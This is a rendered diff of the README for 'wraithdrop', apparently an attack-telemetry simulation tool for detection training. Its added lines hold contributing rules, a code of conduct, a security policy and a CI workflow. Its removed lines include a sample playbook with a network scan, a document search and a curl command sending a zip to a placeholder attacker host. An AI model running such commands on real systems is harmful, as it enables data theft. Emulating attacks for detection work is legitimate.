

Before and after one commit to Cooper1267/wraithdrop, a Markdown page: README.md, the part around one of its changes. Shown at 95% size. GitHub-like rendering; blank space fills up the shorter version.

```diff
--- a/README.md
+++ b/README.md
@@ -75,63 +87,75 @@ You can customize the simulation by editing telemetry_sim.py or creating TTP YAM
 
-All telemetry data is encrypted using AES before being sent over the wire. You can modify the key and IV in utils/aes_encrypt.py to suit your security model.
-🌐 Live Dashboard
+- Fork and clone the repo
+- Create a feature branch
+- Submit a clear PR with:
+  - A description of changes
+  - Associated issue (if any)
+  - Any test output or screenshots
 
-The real-time dashboard listens for encrypted POST requests and displays parsed logs grouped by host. It uses Flask + Socket.IO to stream new events every 2 seconds.
+All PRs are reviewed for stealth, stability, and style.
 
-    Incoming event payloads are automatically decrypted and logged.
+CODE_OF_CONDUCT.md
 
-📂 Sample TTP YAML (Coming Soon)
+# Code of Conduct
 
-profile: data_exfil
-steps:
-  - action: scan_network
-    command: nmap -sS 192.168.1.0/24
-  - action: find_docs
-    command: find /home -name '*.docx'
-  - action: exfiltrate
-    command: curl -F @docs.zip http://attacker/exfil
+We expect all contributors to uphold a standard of respect, collaboration, and discretion.
 
-Support for loading and executing these is part of the planned roadmap.
-🧠 Use Cases
+Offensive behavior, discrimination, or any form of hostile interaction will result in immediate removal from the project.
 
-    Blue team alert tuning and log correlation
+This isn’t just code. It’s an ethos.
 
-    Red team pre-attack behavior simulation
+SECURITY.md
 
-    SOC training labs
+# Security Policy
 
-    Custom TTP emulation for detection engineering
+Found a vulnerability?
 
-    Honeypot decoy behavior injection
+Please disclose responsibly:
+📧 Email: cooper1267@protonmail.com (or replace with preferred)
+🔒 PGP available on request
 
-⚠️ Legal Disclaimer
+We aim to patch within 72 hours of validated disclosure.
 
-WraithDrop is intended for educational and ethical use only.
-Do not deploy or simulate unauthorized actions on systems you do not own or have explicit permission to test.
-🛠️ Roadmap
+📦 5. GitHub Actions – Auto Test & Lint
+.github/workflows/ci.yml
 
-Real-time telemetry dashboard
+name: CI
 
-Encrypted telemetry transport
+on:
+  push:
+    branches: [ "main" ]
+  pull_request:
+    branches: [ "main" ]
 
-Basic evasion modules
+jobs:
+  build:
 
-Full TTP YAML executor
+    runs-on: ubuntu-latest
 
-CLI runner with triggers/delays
+    steps:
+    - name: Checkout code
+      uses: actions/checkout@v3
 
-Atomic Red Team YAML support
+    - name: Setup Python
+      uses: actions/setup-python@v4
+      with:
+        python-version: '3.11'
 
-    Exportable PDF/HTML log reports
+    - name: Setup Node.js
+      uses: actions/setup-node@v3
+      with:
+        node-version: '20'
 
-👤 Author
+    - name: Install Python deps
+      run: |
+        python -m pip install --upgrade pip
+        pip install -r requirements.txt || true
 
-Master_Ancestor
-Microbiology undergrad | Cybersecurity Enthusiast | Code Conjurer
-🔬🛡️💻
-📜 License
+    - name: Install Node deps
+      run: |
+        cd dashboard
+        npm install || true
 
-MIT License – feel free to fork, extend, or contribute.
-✨ Like what you see?
-
-Leave a ⭐ on GitHub – it feeds the Wraith.
+    - name: Run tests (placeholder)
+      run: |
+        echo "No tests yet. Add them here."
```
Also changed, not shown: other parts of README.md (+62 -50 lines).
